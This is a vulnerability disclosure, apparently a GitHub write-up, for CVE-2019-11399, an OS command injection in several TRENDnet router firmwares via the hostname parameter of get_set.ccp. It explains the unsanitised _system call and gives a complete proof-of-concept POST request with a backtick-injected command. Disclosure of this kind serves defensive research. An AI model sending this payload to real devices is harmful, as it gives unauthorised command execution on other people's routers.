 # TRENDNet

**Exploit Author**: pr0v3rbs@kaist.ac.kr

**Vender**: TRENDNet

## CVE-2019-11399

**Firmware version**:
TEW-651BR 2.04B1, TEW-652BRP 3.04b01, and TEW-652BRU 1.00b12

### The detail of vulnerability ###

When processing 'get_set.ccp' with LAN configuration POST request
through web service. 'lanHostCfg_HostName_1.1.1.0.0' parameter can
trigger OS command injection vulnerability.

The string of the 'lanHostCfg_HostName_1.1.1.0.0' parameter is sent to
the 'apLanOpFunc', 'routerLanOpFunc' functions in ncc binary without
any sanitization.

In the functions '_system("hostname %s",(int)data + 0x38);' called while
'(int)data + 0x38' is ```"`cmd`"```.

With OS command injection vulnerability, an attacker can execute any
command of firmware.

### PoC POST message

```
POST /get_set.ccp HTTP/1.1

ccp_act=set&
ccpSubEvent=CCP_SUB_LAN&
nextPage=lan.htm&
old_ip=192.168.10.1&
old_mask=255.255.255.0&
new_ip=192.168.10.1&
new_mask=255.255.255.0&
igd_DeviceMode_1.0.0.0.0=0&
lanHostCfg_HostName_1.1.1.0.0=`cmd`&
lanHostCfg_IPAddress_1.1.1.0.0=192.168.10.1&
lanHostCfg_SubnetMask_1.1.1.0.0=255.255.255.0&
lanHostCfg_DHCPServerEnable_1.1.1.0.0=1&
lanHostCfg_MinAddress_1.1.1.0.0=192.168.10.101&
lanHostCfg_MaxAddress_1.1.1.0.0=192.168.10.199&
lanHostCfg_DomainName_1.1.1.0.0=&
lanHostCfg_DHCPLeaseTime_1.1.1.0.0=10080&
lanHostCfg_StaticDHCPEnable_1.1.1.0.0=1
```